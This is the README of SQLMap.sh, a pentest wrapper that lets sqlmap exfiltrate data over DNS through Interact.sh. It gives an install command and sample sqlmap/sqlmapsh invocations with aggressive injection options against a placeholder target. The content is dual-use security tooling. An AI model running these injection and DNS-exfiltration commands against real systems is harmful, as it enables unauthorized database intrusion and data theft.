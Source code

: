 ![SQLMap.sh](./pics/sqlmapsh.png)


SQLMap.sh is a SQLMap wrapper that lets you use Interact.sh as a DNS server for exfiltrating data with zero configuration.

To use the SQLMap `--dns-domain` flag you need to open your port 53 to the internet to let it run its own DNS server and you need a properly configured domain. This is not always possible during a penetration test engagement or maybe you just don't want to buy a domain for this.

SQLMap.sh solves this problem transparently. Just use it as if it is SQLMap and your are done to exfiltrate data via DNS.

## Installation

Run the following command to install the latest version.

```sh
go install github.com/unlock-security/sqlmapsh@latest
```

## Usage

Just replace `sqlmap` with `sudo sqlmapsh` when you want to use SQLMap with data exfiltration via DNS.

> [!IMPORTANT]
> SQLMap requires root privileges to perform data exfiltration via DNS because it needs to bind it's own DNS server locally on port 53

For example:

```sh
$ sqlmap -u 'https://www.target.com/page=1' -p page --level=5 --risk=3 --technique=E --banner
```

Become:

```sh
$ sudo sqlmapsh -u 'https://www.target.com/page=1' -p page --level=5 --risk=3 --technique=E --banner
```

---

<p align="center">Made with 💙 by Unlock Security</p>
<p align="center">
  <a href="https://www.unlock-security.it/?utm_source=github&utm_medium=repo&utm_campaign=wshell" target="_blank" rel="noopener">
    <img src="https://www.unlock-security.it/wp-content/uploads/2022/12/logo.svg" width="150">
  </a>
</p>
